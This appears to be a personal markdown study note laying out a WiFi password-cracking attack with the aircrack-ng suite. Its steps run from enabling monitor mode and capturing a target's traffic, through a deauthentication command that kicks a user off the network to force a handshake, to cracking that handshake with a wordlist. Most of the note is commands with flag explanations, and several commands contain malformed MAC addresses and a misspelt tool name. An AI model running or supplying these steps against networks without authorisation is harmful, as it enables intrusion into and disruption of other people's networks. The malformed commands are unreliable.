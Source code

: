 


![[Pasted image 20230104142015.png]]


# start airmon
```bash

airmon-g check kill

airmon-ng start wlan0

iwconfig
```
# search area find target
```

airodump-ng wlan0mon

airodump-ng -c 6 --bssid 50:C7:8A:00:73 -w capture  wlan0mon
# flags
-c # channel
--bssid # mac
-w # file to dump to 
wlan0mon # nic

```

![[Pasted image 20230104142917.png]]

# Deauth
Kick user out of wifi
```
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 3C:f0:22:DB:E3 wlan0mon
# flags
-0 1 # run attack 1 time
-a # target MAC
-c # target station 
```

![[Pasted image 20230104142946.png]]
# crack handshake
```
aircrack-ng -w /usr/share/wordlist/rockyou.txt -b 50:C7:BF:00:73 capture-01.cap
# FLAGS
-w # wordlist 
-b # target mac 
capture-01.cap # handshake file 
```

---
Tags: #wifi
Resources: